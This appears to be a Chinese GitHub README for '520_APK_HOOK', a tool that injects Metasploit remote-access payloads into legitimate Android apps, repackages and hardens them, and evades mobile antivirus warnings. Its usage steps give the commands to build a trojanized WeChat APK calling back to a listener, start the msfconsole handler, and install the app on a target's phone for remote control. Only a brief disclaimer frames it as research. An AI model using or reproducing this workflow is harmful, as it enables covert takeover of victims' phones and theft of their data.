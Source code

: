 # 520_APK_HOOK

## bug修复

* 修复权限未注入的bug。此bug会导致app无法启动

## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。

* 被注入后的app可以正常运行，msf正常在线，继承app的权限。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 部分被加固过的app无法进行注入，已测试网易系列💔，360系列💔，腾讯系列❤️，其他的请自行测试。

## 项目依赖

* 本项目参考以下项目

* [apk-steady](https://gitee.com/openjk/apk-steady)

* [apk-jiagu](https://gitee.com/openjk/apk-jiagu)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)

## 使用


1. 使安装python3, Java环境.

2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ python main.py --lhost 192.168.0.106 --lport 1433  -n ../微信_7.0.22.apk

```

[![asciicast](https://asciinema.org/a/449061.svg)](https://asciinema.org/a/449061)

3. 使用msfconsole加载handler.rc进行服务端监听

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ msfconsole -r WorkDir/handler.rc

```

[![asciicast](https://asciinema.org/a/449064.svg)](https://asciinema.org/a/449064)

4. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![安装App](./images/InstallApp.webp)

5. 成功后, 可以在msf中进行远程控制

